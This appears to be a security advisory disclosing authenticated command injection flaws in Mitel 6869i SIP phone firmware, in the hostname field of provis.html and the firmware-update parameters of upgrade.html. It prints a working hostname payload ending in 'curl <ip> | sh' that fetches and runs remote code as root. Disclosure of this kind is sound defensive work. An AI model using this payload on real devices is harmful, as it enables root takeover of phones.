


# Mitel 6869i  4.5.0.41, 5.0.0.1018
Multiple firmware version (4.5.0.41, 5.0.0.1018) of the Mitel 6869i SIP Phone were found to be vulnerable to a authenticated remote command execution (command injection) vulnerability. The web application hosted by the device, fails to properly sanitize user supplied Input resulting in the ability to execute arbitrary commands.

## Authenticated Remote Command Execution (provis)
The Mitel 6869i SIP Phone, firmware version 4.5.0.41, 5.0.0.1018, and earlier fail to properly sanitize user supplied input. The 'Network Settings' (`provis.html`) page does not perform sanitization the ``hostname`` parameter prior to writing the contents to the local configuration file ``/nvdata/etc/local.cfg``.

On devices boot, it is assumed that the ``/nvdata/etc/local.cfg``, or another configuration file containing the modified hostname parameter Is used as apart of a shell script.

By submitting a specially crafted HTTP POST request to the ``/provis.html`` endpoint containing certain characters, arbitrary commands under the user context of root can be executed.

During the boot process, the ``hostname`` parameter is eventually read into a shell script without sanitization, resulting in code execution. For the device to be functional during and after execution, the original `'udhcpc'` command must be set to its original state with any trailing data being nullified.

Using the payload ``QWERTY -t 302400 -T 6 -b -a -i eth0 -s /usr/share/udhcpc/default.script -p /var/run/udhcpc.eth.pid; curl <ip> | sh #`` In the ``hostname`` parameter, the original ``udhcpc`` command is completed, allowing any additional commands to succeed.

A full demonstration against the Mitel 6869i SIP Phone 4.5.0.41 can be viewed on YouTube, at https://www.youtube.com/watch?v=I9TQqfP5qzM.

### Affected Assets
Affected assets are based on tested firmware versions. It's possible that other versions may contain the same vulnerability. 
**REV00 6869i 4.5.0.41**
- https://www.mitel.com/-/media/mitel/file/zip/open-solutions/6869/58015546rev00450416869i.zip?modified=20180425183828

**REV03 6869i 5.0.0.1018 SP1**
- https://www.mitel.com/-/media/mitel/file/zip/open-solutions/6869/58015373rev035001018sp16869i.zip?modified=20180425183909

## Authenticated Remote Command Execution (firmware)
The Mitel 6869i SIP Phone, firmware version 4.5.0.41 fails to properly sanitize user supplied input. The 'Manual Firmware Update' (`upgrade.html`) page does not perform sanitization the `username` and `path` parameter prior to appending the flags to the busybox `ftpget` command. 

By sending a specially crafted HTTP POST request containing command substitution syntax (`$()`) to the endpoint `upgrade.html` arbitrary commands can be executed.  

### Affected Assets
Affected assets are based on tested firmware versions. It's possible that other versions may contain the same vulnerability. 
**REV03 6869i 5.0.0.1018 SP1**
- https://www.mitel.com/-/media/mitel/file/zip/open-solutions/6869/58015373rev035001018sp16869i.zip?modified=20180425183909